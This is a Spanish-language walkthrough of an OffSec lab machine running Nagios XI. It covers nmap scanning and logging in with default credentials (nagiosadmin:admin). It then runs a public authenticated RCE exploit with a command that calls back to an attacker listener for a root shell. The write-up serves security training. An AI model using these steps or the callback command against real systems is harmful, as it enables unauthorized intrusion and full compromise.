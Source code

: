 ```yaml
---
description: '✍️ Autor: OffSec 🔍 Dificultad: Fácil'
---
```


# Monitoring

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.197.136
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 192.168.197.136
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como se puede observar durante el escaneo, los siguientes puertos se encuentran abiertos:

* **Puerto 22**, correspondiente al servicio **SSH**.
* **Puerto 25**, correspondiente al servicio **SMTP**.
* **Puerto 80**, correspondiente al servicio **HTTP**.
* **Puerto 389**, correspondiente al servicio **LDAP**.
* **Puerto 443**, correspondiente al servicio **HTTPS**.

Dado que estos servicios están accesibles, se procederá a realizar un análisis más detallado sobre cada uno de ellos con el fin de identificar posibles vectores de ataque o configuraciones incorrectas.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,389,443 -v 192.168.197.136
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es una página de Nagios XI y al dar a acceder se nos muestra el panel de Login. Tras buscar las contraseñas por defecto nos logueamos (nagiosadmin:admin).

{% embed url="https://bobcares.com/blog/nagios-reset-password-for-nagiosadmin/" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando la página encontramos una versión por lo que miramos a ver si tiene un exploit.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Sí tiene exploit por lo que lo ejecutamos y así conseguimos una ejecución remota de código.

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/http/nagios_xi_mibs_authenticated_rce/" %}

{% @github-files/github-code-block url="https://github.com/hadrian3689/nagiosxi_5.6.6/blob/main/exploit.py" %}

Nos descargamos el exploit y lo ejecutamos.

```bash
python3 exploit.py -t http://192.168.197.136/ -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.157-lp 4444
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mientras nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

y sí somos **root**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
